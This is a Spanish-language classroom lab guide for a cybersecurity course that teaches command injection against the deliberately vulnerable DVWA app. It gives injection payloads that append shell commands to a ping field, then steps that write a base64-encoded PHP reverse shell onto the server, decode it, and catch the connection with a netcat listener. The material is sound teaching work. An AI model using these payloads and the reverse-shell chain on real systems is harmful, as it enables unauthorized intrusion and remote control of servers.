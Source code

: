 ```yaml
---
typora-copy-images-to: ../assets/img/fileupload
typora-root-url: ../../
layout: post
categories: tema4 Command Injection
title: Command Injection
conToc: false
author: Víctor Ponz
conToc: true
titlepage: true
titlepage-background: assets/img/riesgos.png
page-background:  assets/img/fondo-pagina.png
urlcolor: CornflowerBlue
linkcolor: black
toc-own-page: true
toc-title: Contenidos
header-left: UD 4. Command Injection
header-right: Ciberseguridad
footer-left: IES El Caminàs
footer-right: \thepage/\pageref{LastPage}
titlepage-rule-color: 1e2c37
header-includes: |
    \usepackage{lastpage} 
    \usepackage{awesomebox}
pandoc-latex-environment:
    noteblock: [note]
    tipblock: [tip]
    warningblock: [warning]
    cautionblock: [caution]
    importantblock: [important]
---
```


## Práctica 1 - Command injection

> La inyección de comandos es un ataque en el que el objetivo es la ejecución de comandos arbitrarios en el sistema operativo host a través de una aplicación vulnerable. Los ataques de inyección de comandos son posibles cuando una aplicación pasa datos no seguros proporcionados por el usuario (formularios, cookies, encabezados HTTP, etc.) a un shell del sistema. En este ataque, los comandos del sistema operativo proporcionados por el atacante generalmente se ejecutan con los privilegios de la aplicación vulnerable. Los ataques de inyección de comandos son posibles en gran parte debido a una validación de entrada insuficiente.

En la **siguiente práctica** vamos a realizar un *reverse shell* mediante la inyección  de comandos desde un campo de texto de un formulario que no realiza una validación de entrada correcta.

Este es una variante del ataque **FileUpload** ya que persigue almacenar un fichero ejecutable con dicho reverse shell.

La máquina DVWA tiene un fallo de seguridad en la página [Command Injection](http://localhost:8080/vulnerabilities/exec/).

![Command Injection](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504191910879.png)

En este formulario se supone que el usuario puede poner una IP a la que hacerle ping. Para descubrir si es vulnerable a Command injection podemos introducir el siguiente comando:

```
127.0.0.1 ; ls
```

Lo que intentamos es que el servidor ejecute también el comando `ls` ya que suponemos que esta es la instrucción que realiza el `ping`

```php
 $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
```

y no comprueba si `$target` es una IP Válida.

**Los pasos son los siguientes:**

1. Descarga el archivo del *reverse shell* desde esta [dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y guárdalo como `shell.php`

2. Edítalo y cambia la IP por la de tu equipo

![Reverse shell](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504175459944.png)



3. Ahora vamos a codificarlo en [base 64](https://www.base64encode.org/.)  

   > **Nota**. Para que ocupe menos espacio es recomendable eliminar los comentarios 

4.  Nos aprovecharnos de la vulnerabilidad para crear un archivo en el servidor mediante la siguiente entrada en el formulario:

   ```
   127.0.0.1 ; echo "pega-aquí-el-código-en-base64" > shell.txt
   ```

   Con este comando estamos creando el archivo `shell.txt` con el código en base64.
   
5. Decodificamos el código mediante la siguiente entrada

   ```
   127.0.0.1 ; cat shell.txt | base64 -d > shell.php
   ```

6. Ya sólo nos queda ejecutar en el ordenador del atacante el comando `netcat`

    ```bash
    nc -v -n -l -p 1234
    ```

5. Y quedarnos a la espera de una conexión entrante desde el ordenador de la víctima al visitar la url [localhost:8080/vulnerabilities/exec/shell.php](localhost:8080/vulnerabilities/exec/shell.php) del punto 5.

 ![Remote shell](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504193946369.png)

